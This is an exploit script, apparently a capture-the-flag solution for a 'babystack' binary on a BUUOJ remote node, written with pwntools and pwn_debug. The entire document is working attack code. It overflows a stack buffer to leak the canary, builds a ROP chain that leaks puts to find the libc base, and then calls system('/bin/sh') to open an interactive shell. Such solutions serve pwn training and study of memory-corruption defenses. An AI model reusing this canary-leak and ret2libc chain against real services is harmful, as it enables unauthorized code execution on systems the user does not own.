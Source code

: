 

## others_babystack

```python
from pwn_debug import *
context.log_level = 'debug'

pdbg = pwn_debug('./babystack')

pdbg.local("/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so", "/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so")
pdbg.remote("node4.buuoj.cn", 27362 ,"/home/xyc/share/s/libc-2.23_x64.so")

p = process(['/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so','./babystack'],env={"LD_PRELOAD":"/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so"})
elf = ELF('./babystack')
libc = ELF("/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")
#libc = pdbg.libc
#elf = pdbg.elf

pop_rdi = 0x400a93
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_addr = 0x400908
def store(content):
	p.recvuntil('>> ')
	p.sendline('1')
	p.sendline(content)

def print1():
	p.recvuntil('>> ')
	p.sendline('2')
	
payload1 = 'a'*(0x80) + 'b'*8
store(payload1)

print1()
p.recvuntil('bbbbbbbb\n')
canary = u64(p.recv(7).rjust(8, '\x00'))
print(hex(canary))
payload2 = 'a'*(0x90-0x8) + p64(canary) + p64(0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
store(payload2)
p.recv()
p.sendline('3')
puts_addr = u64(p.recv(6).ljust(8, '\x00'))

libc_addr = puts_addr - libc.symbols['puts']
sys_addr = libc_addr + libc.symbols['system']
bin_addr = libc_addr + libc.search('/bin/sh').next()
payload3 = 'a'*(0x90-0x8) + p64(canary) + p64(0) + p64(pop_rdi) + p64(bin_addr) + p64(sys_addr) + p64(main_addr)
store(payload3)
p.sendline('3')
p.interactive()

```
